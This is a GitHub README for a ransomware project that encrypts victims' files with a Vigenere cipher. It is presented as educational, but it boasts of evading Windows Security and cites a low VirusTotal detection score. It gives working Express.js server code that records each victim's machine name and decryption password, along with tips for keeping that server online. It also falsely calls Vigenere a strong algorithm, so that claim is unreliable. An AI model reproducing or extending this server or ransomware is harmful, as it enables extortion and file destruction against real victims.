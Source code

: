 # REVENGE RANSOMEWARE
a vigenere encrypt ransomeware created by me :p, for education purpose.
**MAKE SURE TO STAR THE REPOSITORY :)**

# Used Algorithm
- Vigenere (which is strong algorithm)

# DISCLAIMER
i didnt try this fully, so try it on virtual machine to make sure it works perfectly, If you encounter any problems tell me in [issues](https://github.com/Bowlingtoolkit/Vigenere-Ransomeware/issues)
also **i created this only for education purposes**,
also windows security **wont** detect this ransomeware :) 

# Express Node.js Server (To Get The Password For Decrypt) Example:
```js
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const app = express();

app.use(express.static(__dirname + "/public"));
app.use(bodyParser.json())
//url.com/new
app.post('/new', (req, res) => {
  var pcname = req.body.user;
  var password = req.body.pass;

  var createStream = fs.createWriteStream(`public/${pcname}.txt`);
  createStream.end();
  
  fs.writeFile(`./public/${pcname}.txt`, `password=${password}`, (err) => {
    if(err) return console.log(err);
    console.log("New Victim !")
  });
  res.send("done")
})

const listener = app.listen(3000, () => {
  console.log("Your app is listening on port 3000");
});
 
```
- You can use [glitch.com](https://glitch.com) to create projects to get the decrypt password, if you want fresh project [clickhere](https://glitch.com/edit/#!/remix/revenge-ransome), but make sure to make the project 24/7 by using service like uptimerobot.


# Detection
15/72
[Virustotal Scan Result](https://www.virustotal.com/gui/file/b74d62a432a9011e2d2c8cf16790a21bd0253ba5d5df09c08e993020985ddc1c/detection)

![virustotal](https://g.top4top.io/p_1614y4m991.png)


# Change Log:
- Now includes the decryption software :) 


![decryptsoftware](https://i.top4top.io/p_1604d9ahl1.png)



- Now supports encrypting folders .
